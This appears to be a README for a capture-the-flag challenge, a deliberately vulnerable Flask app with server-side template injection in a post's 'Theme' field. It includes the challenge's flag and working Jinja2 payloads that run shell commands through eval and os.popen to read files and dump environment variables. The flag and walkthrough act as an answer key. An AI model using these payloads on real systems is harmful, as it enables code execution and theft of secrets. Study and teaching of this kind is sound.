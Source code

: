 # CTF Challenge: mola7ada



## Challenge Description

While performing web penetration testing, it's crucial to remain stealthy and avoid drawing unnecessary attention. Remember, the challenge itself might be straightforward, but the real skill lies in how you uncover the vulnerabilities without alerting others. Always strive to be the one who finds the fruit while others remain unaware of its existence.  

---

## Challenge Setup
- **Application**: A Flask web application with user authentication, post creation, and profile viewing.
- **Vulnerability**: The `Theme` field in the post creation form is vulnerable to SSTI.
- **Flag**: The flag is stored in a file named `flag.txt` in the root directory of the application.

---

## Vulnerability Details
The vulnerability exists in the `Theme` field of the post creation form. When a user creates a post, the `Theme` field is rendered unsafely in the profile page using Jinja2 templating. This allows attackers to inject malicious Jinja2 templates and execute arbitrary code on the server.

For example, the following payload can be used to perform a simple calculation:
```jinja2
{{ 7 * 7 }}
This will render as 49 in the profile page, confirming the SSTI vulnerability.

Exploitation Steps
Create a Post:

Go to the post creation page (/posting).

Enter a Title and Content.

In the Theme field, enter a malicious payload to exploit the SSTI vulnerability.

Exploit SSTI:

Use the following payload to read the contents of flag.txt:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').popen('cat /path/to/flag.txt').read()") }}
Replace /path/to/flag.txt with the actual path to the flag.txt file.

View the Profile:

Go to the profile page (/users/<user_id>).

The Theme field will display the contents of flag.txt.

Example Payloads
Simple SSTI Test:

jinja2
Copy
{{ 7 * 7 }}
Output: 49

Read Environment Variables:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').environ") }}
Output: A dictionary of environment variables.

Read flag.txt:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').popen('cat ./flag.txt').read()") }}
Output: The contents of flag.txt.
```


## FLAG 

CTF{khoya_7na_mzrobin_3tih_flag_a_rabi3a}